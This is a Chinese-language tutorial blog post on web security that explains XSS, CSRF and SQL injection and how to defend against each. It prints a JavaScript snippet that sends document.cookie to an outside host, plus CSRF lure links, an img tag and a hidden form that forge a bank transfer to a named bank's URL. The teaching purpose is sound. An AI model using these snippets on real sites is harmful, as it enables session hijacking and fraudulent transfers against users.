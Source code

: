 ```yaml
---
title: 常见web安全及防护原理
date: 2018-03-22 13:54:59
tags:
  - web
categories:
---
```


1. <a href="#xss">XSS-跨站脚本攻击</a>
2. <a href="#csrf">CSRF-跨站请求伪造</a>
3. <a href="#sql">SQL 注入</a>

- 通常来说CSRF是由XSS实现的，所以CSRF时常也被称为XSRF[用XSS的方式实现伪造请求]（但实现的方式绝不止一种，还可以直接通过命令行模式（命令行敲命令来发起请求）直接伪造请求[只要通过合法验证即可]）。
- XSS更偏向于代码实现（即写一段拥有跨站请求功能的JavaScript脚本注入到一条帖子里，然后有用户访问了这个帖子，这就算是中了XSS攻击了），CSRF更偏向于一个攻击结果，只要发起了冒牌请求那么就算是CSRF了。

#### <a name="xss">1. XSS-跨站脚本攻击</a>
- **什么是 `XSS`：**
  - `XSS`：跨站脚本（`Cross-site scripting`，通常简称为 `XSS`）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了 `HTML` 以及用户端脚本(`JavaScript`)语言。
  - 即：通过客户端脚本语言（最常见如：`JavaScript`）在一个论坛发帖中发布一段恶意的 `JavaScript` 代码就是脚本注入，如果这个代码内容有请求外部服务器，那么就叫做`XSS`！
- **如何做到 `XSS`：**
  1. 利用别人的 `cookie`，可以冒充真实的用户，在颁发 `cookie` 的那个网站中为所欲为。因为浏览器的同源策略，所以不能获取到其他网站的cookie，但通过把JavaScript代码注入到目标页面中，就能绕过同源策略，比如在HTML的 `<input>` 中注入JavaScript代码，等到数据提交到服务器端，会保存下来，下次展示页面的时候，就会执行这段代码。
  举例有这样一个网站，可以让你对某个文章输入评论：
  <img src="/images/xss1.png" alt="xss">
  2. 等到再次有人访问这个页面的时候，就可以把那个人的cookie显示出来了！当然不能直接把用户的cookie直接alert出来，而同源策略严格限制了JavaScript的跨域访问，但同源策略并不限制 `<img>` 这样的标签从别的网站（跨域）去下载图片，所以可以通过创建一个不可见的 `<img>` ，通过这个 `<img>` 发cookie到自己的服务器。
  直接上代码：
  ```js
  var img = document.createElement("img");
  img.src = "http://web.com/log?" + escape(document.cookie);
  document.body.appendChild(img);
  ```
  3. 只要这段代码被执行，用户的cookie就会发送到别人的服务器上(`http://web.com/log`)。再将这段代码封装成一个js文件(web.js)。
    <img src="/images/xss2.png" alt="xss">
    这样就可以拿到用户的cookie。这种窃取用户的cookie的方法叫做XSS。
    `注：`按照XSS的分类方法，上面介绍的叫做存储性XSS，危害最大。还有反射型XSS，基于DOM的XSS，本文不再展开。
- **如何防范 `XSS`：**
  - 首先代码里对用户输入的地方和变量都需要仔细检查长度和对`<`,`>`,`;`,`'`等字符做过滤；其次任何内容写到页面之前都必须加以 `encode`，避免不小心把 `html tag` 弄出来。这一个层面做好，至少可以堵住超过一半的XSS攻击
  - 避免直接在cookie 中泄露用户隐私，例如email、密码等等
  - 其次，通过使cookie 和系统 `ip` 绑定来降低cookie 泄露后的危险。这样攻击者得到的cookie 没有实际价值，不可能拿来重放
  - 如果网站不需要再浏览器端对cookie 进行操作，可以在 `Set-Cookie` 末尾加上 `HttpOnly` 来防止javascript 代码直接获取cookie 
  - 尽量采用POST 而非GET 提交表单

#### <a name="csrf">2. CSRF-跨站请求伪造</a>
- **什么是 `CSRF`：**
  - `CSRF`：跨站请求伪造（英语：`Cross-site request forgery`），也被称为 `one-click attack` 或者 `session riding`，通常缩写为 `CSRF` 或者 `XSRF`， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。
  - 即：冒充用户发起请求（在用户不知情的情况下）,完成一些违背用户意愿的请求（如恶意发帖，删帖，改密码，发邮件等）。
- **如何做到 `CSRF`：**
  1. 一个用户的会话cookie在浏览器没有关闭的时候，是不会被删除的，所以可以换个思路，不再去偷这个cookie了，相反，可以在web.com中构造一个领奖页面，里面包含一个连接，让用户去惦记，例如：
  ```html
  恭喜你获得了iPhoneX一台，快来<a href="www.icbc.com.cn/transfer?toBankId=黑客的账户&money=金额">领取</a>吧
  ```
  2. 这得先知道icbc.com.cn的转账操作的url和参数名称。如果这个用户恰好登录了icbc.com，那他的cookie还在，当他禁不住诱惑，点了这个链接后，一个转账操作就神不知鬼不觉的发生了。
  `注：`为了方便展示，本文举了一个非常简单的案例，银行实际的转账操作要远远比文章描述安全的多。
  3. 除了让用户点击外，还可以使用img标签 `<img src="www.icbc.com.cn/transfer?toAccountID=黑客三兄弟的账户&money=金额">`，只要用户打开了这个页面，不点击任何东西，就会发生转账操作。所以现在有很多邮箱默认是不显示邮件中的图片的。
  4. 如果icbc.com.cn的转账操作需要form表单，是POST操作，那么可以自己创建一个表单，放到一个不可见的iframe中，用户只要一访问，就用JavaScript自动提交：
  ```html
  <form action="http://www.icbc.com.cn/transfer" method="POST">
    <input type="text" name="toAccountID" value="黑客的账号"/>
    <input type="text" name="money" value="金额"/>
  </form>
  ```
  5. 总之，只要用户在访问icbc.com.cn的时候，访问了web.com，就极有可能中招，这种方式，只是利用了一下合法的Cookie，在服务器看来，发出的这个请求是一次合法的请求。这个就叫跨站请求伪造，Cross Site Request Forgest (CSRF)。
- **如何防范 `CSRF`：**
  1. 用户在icbc.com.cn转账，显示转账的form，除了常用的字段之外，额外添加一个token:
  ```html
  <form action="http://www.icbc.com.cn/transfer" method="POST">
    <input type="hidden" name="token" value="axsa;dsww98725678836554xskdhf82735672"/>
    <input type="text" name="toAccountID" value="黑客的账号"/>
    <input type="text" name="money" value="金额"/>
  </form>
  
  <!-- 这个token是icbc.com服务器端生成的，是一个随机的数字。 -->
  ```
  2. 用户的转账数据发送的服务器端，icbc.com就会检查从浏览器发过来的数据中有没有token，并且这个token的值是不是和服务器端保存的相等，如果相等，就继续执行转账操作，如果不相等，那这次POST请求肯定是伪造的。
    这个token是服务器端生成的，无法伪造，CSRF的手段也不行了。
  3. 服务端的CSRF方式方法很多样，但总的思想都是一致的，就是在客户端页面增加伪随机数，或者通过验证码的方法。

#### <a name="sql">3. SQL 注入</a>
- **什么是 `SQL` 注入：**
  - 就是通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。
- **如何防范：**
  1. 永远不要信任用户的输入，要对用户的输入进行校验，可以通过正则表达式，或限制长度，对单引号和双"-"进行转换等。
  2. 永远不要使用动态拼装SQL，可以使用参数化的SQL或者直接使用存储过程进行数据查询存取。
  3. 永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接。
  4. 不要把机密信息明文存放，请加密或者hash掉密码和敏感的信息。

<p style="text-align: right;">`参考文档` [segmentfault](https://segmentfault.com/a/1190000013022789)</p>
